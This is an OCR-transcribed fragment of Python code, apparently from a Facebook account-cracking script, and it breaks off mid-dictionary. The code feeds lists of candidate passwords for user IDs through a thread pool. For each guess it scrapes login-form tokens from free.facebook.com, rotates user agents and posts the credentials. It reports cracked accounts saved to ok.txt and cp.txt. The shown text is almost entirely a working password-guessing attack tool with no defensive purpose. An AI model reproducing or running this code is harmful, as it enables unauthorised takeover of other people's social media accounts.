             for Eman in HamiiID:

                pwx.append(Eman)

            manshera.submit(rcrack,uid,pwx,tl)

    print('\033[1;32m•••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')

    print('Crack process has been completed')

    print('Ids saved in ok.txt,cp.txt')

    print('\033[1;32m•••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')

def rcrack(uid,pwx,tl):

    #print(user)

    global loop

    global cps

    global oks

    global proxy

    try:

        for ps in pwx:

            pro = random.choice(ugen)

            session = requests.Session()

            free_fb = session.get('https://free.facebook.com').text

            log_data = {

                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),

            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),

            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),

            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),

            "try_number":"0",

            "unrecognized_tries":"0",

            "email":uid,

            "pass":ps,

            "login":"Log In"}

            header_freefb = {"authority": 'free.facebook.com',

            "method": 'GET',

            "scheme": 'https',

            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',
